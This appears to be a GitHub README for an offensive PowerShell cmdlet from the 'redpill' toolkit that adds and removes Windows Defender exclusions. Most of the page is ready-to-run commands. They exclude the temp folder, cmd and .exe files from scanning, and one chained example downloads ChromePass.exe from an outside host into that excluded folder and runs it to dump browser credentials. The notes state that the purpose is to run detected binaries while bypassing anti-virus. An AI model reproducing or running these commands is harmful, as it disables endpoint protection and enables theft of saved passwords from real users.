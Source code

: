 ## Invoke-Exclusions.ps1

|Cmdlet name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-Exclusions|Add exclusions to Defender (Set-MpPreference) + Download\Execute -uri 'cmdlet'<br />Exclusion values accepted : **'ExclusionPath, ExclusionProcess, ExclusionExtension'**|Administrator|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.png)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-ExclusionsUrl.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.ps1" -OutFile "Invoke-Exclusions.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name "WinDefend")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -Match "S-1-5-32-544")

#Make sure required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Get-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Set-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Remove-MpPreference")
```

```powershell
#Get full module information
Get-help .\Invoke-Exclusions.ps1 -Force

#Get Exclusions List (terminal)
.\Invoke-Exclusions.ps1 -action "query"

#Get Exclusions List (GUI)
.\Invoke-Exclusions.ps1 -action "query" -Gui "true"


#Set-MpPreference -ExclusionProcess "cmd" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionProcess" -Exclude "cmd"

#Set-MpPreference -ExclusionExtension "exe" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionExtension" -Exclude "exe"

#Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionPath" -Exclude "$Env:TMP"


## Add exclusion Path + Download URI PE + Execute PE
# 1º - Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
# 2º - Iwr -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -OutFile "$Env:TMP\ChromePass.exe"
# 3º - cd $Env:TMP; .\ChromePass.exe /stext credentials.log
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionPath" -Exclude "$Env:TMP" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -Arguments "/stext credentials.log"


#Remove-MpPreference -ExclusionProcess "cmd" Force
.\Invoke-Exclusions.ps1 -action "del" -type "ExclusionProcess" -Exclude "cmd"
```

<br />

### Final Notes
```powershell
[DESCRIPTION]
This cmdlet allow users to manage ( query, create, delete ) Windows
Defender exclusions: ExclusionExtension, ExclusionProcess, ExclusionPath.
The files covered by the exclusion definition will be excluded from Windows
Defender Real-time protection, monitoring, Scheduled scans, On-demand scans.

[NOTES]
This cmdlet in addition to add\remove exclusions from windows defender
allows its users to download binaries (PE) that are being detected by the
anti-virus and run it through the exclusion definition (bypassing detection)
```
